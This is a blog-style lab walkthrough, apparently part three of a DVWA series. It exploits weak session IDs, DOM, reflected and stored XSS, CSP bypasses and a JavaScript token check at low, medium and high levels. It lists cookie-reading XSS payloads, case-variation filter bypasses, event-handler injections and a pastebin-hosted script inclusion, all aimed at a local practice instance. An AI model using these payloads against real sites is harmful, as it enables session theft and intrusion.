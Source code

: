 ```yaml
---
layout: post
title: DVWA - Part 3
categories: [Vulnerable Web Applications]
tags: [DVWA, OWASP ZAP, weak session ids, XSS, CSP, JavaScript]

---
```

## Weak session IDs

We can predict some session IDs to steal information or carry out some malicious operations.

LOW - MEDIUM - HIGH:

LOW: We see that the dvwaSession cookie increases one unit each time we send a request. *$_SESSION['last_session_id']++;* . It has no difficulty in getting IDs.

MEDIUM: In this case the dvwaSession does not start with 1, but we can see that it takes as value the timestamp *$cookie_value = time();* , therefore it is also easy to guess.

HIGH: *$cookie_value = md5($_SESSION['last_session_id_high']); $_SESSION['last_session_id_high']++;*
The first dvwaSession is the hash c4ca4238a0b923820dcc509a6f75849b and [cracking](https://crackstation.net/) it, we can see that the answer is 1. If we send other request, the second value is 2. The next, 3...

## XSS (DOM)

We can send malicious code to get any cookies or session tokens held by the browser. 

LOW - MEDIUM - HIGH:

LOW: The URL is 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English and we can modify it. For example:
  - 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=random
  - 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English<.script.>alert(“hello”)<./script.>
  - 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English<.script.>alert(document.cookie)<./script.>

MEDIUM: The medium level do not allow: “<.script.>”, so we can use this 
https://127.0.0.1/DVWA/vulnerabilities/xss_d/?default=English<./select.><.img src=x onerror=alert(document.cookie).>

HIGH: 127.0.0.1/dvwa/vulnerabilities/xss_d/?default=English#<.script.>alert(document.cookie)<./script.>
Then, selecting other language we can see a pop-up displaying the cookie info.

## XSS Reflected

It allows the manipulation of the functions of a web application and the activation of malicious scripts. Here we can use a javascript function to exploit this. 

- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.h1>hello<.h1>
- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.font color=”blue”>hello<./font>

LOW - MEDIUM - HIGH:

LOW: https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.script>alert(document.cookie)<./script>

MEDIUM: The script replace "<.script" with blank space. So we can change one or more letters of the word "script" to uppercase.
- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.Script>alert(document.cookie)<./Script>
- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.scRipt>alert(document.cookie)<./scRipt>
- https://127.0.0.1/DVWA/vulnerabilities/xss_r/?name=<.SCriPt>alert(document.cookie)<./SCriPt>

HIGH: We can't use <.script>.

- <.img src=nosource onerror=alert(document.cookie)>
- <.svg/onload=alert(document.cookie)>
- <.body onload=alert(document.cookie)>

## XSS Stored

When we send data, it is stored by the server, and then it will be displayed permanently. 

LOW - MEDIUM - HIGH:

LOW: Use <.script>
<.script>alert(document.cookie)<./script>

MEDIUM: Looking at the code, we see this: $message=htmlspecialchars($message); 

htmlspecialchars(): Convert special characters into HTML entities. For example:
< less than: converted to ‘&.lt;’
> more than: converted to ‘&.gt;’

That's why we can't use the Message field. The only option is to put our script in the Name field, but we have two drawbacks:
- Max lenght of 10 characters.
- Replace script with a blank space.

We use <.script>alert(document.cookie)<./script> with one or more letters of "script" in capital letters: <Script>alert(document.cookie)<./Script>

We can modify the max lenght with the inspect tool.

![]({{ site.baseurl }}/images/DVWA-7.jpg)

Or sending a post request like this:

![]({{ site.baseurl }}/images/DVWA-8.jpg)

HIGH: We use the Name field, but in this case we can't use 'script' in any of its variants.

<.img src=nosource onerror=alert(document.cookie)>
<.svg/onload=alert(document.cookie)>
<.body onload=alert(document.cookie)>


## CSP Bypass 

CSP is a built-in browser technology which helps protect from attacks such as cross-site scripting (XSS). It lists and describes paths and sources, from which the browser can safely load resources.

LOW - MEDIUM - HIGH:

LOW: Looking at the script, we see that it allows scripts (or in Response headers-> Content-Security-Policy) from:
- https://pastebin.com
- example.com
- code.jquery.com
- https://ssl.google-analytics.com 

We also see a commented url in the script that we can use: https://pastebin.com/raw/R570EE00 
We can insert that url or create our own in Raw format (https:/pastebin.com/raw/...), for example: alert("hey");

MEDIUM: We see the nonce attribute, it enables you to “whitelist” certain inline script. 
- <.script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(document.cookie);<./script> 
- <.script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">console.log(document.cookie);<./script> 

HIGH: The URL is http://127.0.0.1/DVWA/vulnerabilities/csp/source/jsonp.php?callback=solveSum and we can modify it like this:
- http://127.0.0.1/DVWA/vulnerabilities/csp/source/jsonp.php?callback=alert(“hello”);


## JavaScript

We need to guess the correct token for "success".

LOW - MEDIUM:

LOW: When you enter "success", the token becomes invalid, and the same token appears every time. Looking at the sorce code we see: generate_token(); and if we enter it in console, we can get a valid token. Another option is to get the hash of "success"using this [tool](https://www.md5hashgenerator.com/).

MEDIUM: In the script <.script src="/vulnerabilities/javascript/source/medium.js">, we can see this: 
```
setTimeout (function () {
  do_elsesomething ('XX');
}, 300);
function do_elsesomething (e) {
  document.getElementById ('token').value = do_something (
    e + document.getElementById ('phrase').value + 'XX'
  );
}
```
The token is always the same: XXeMegnahCXX → XX+Reverse_ChangeMe+XX
So we try this token: XxsseccusXX.
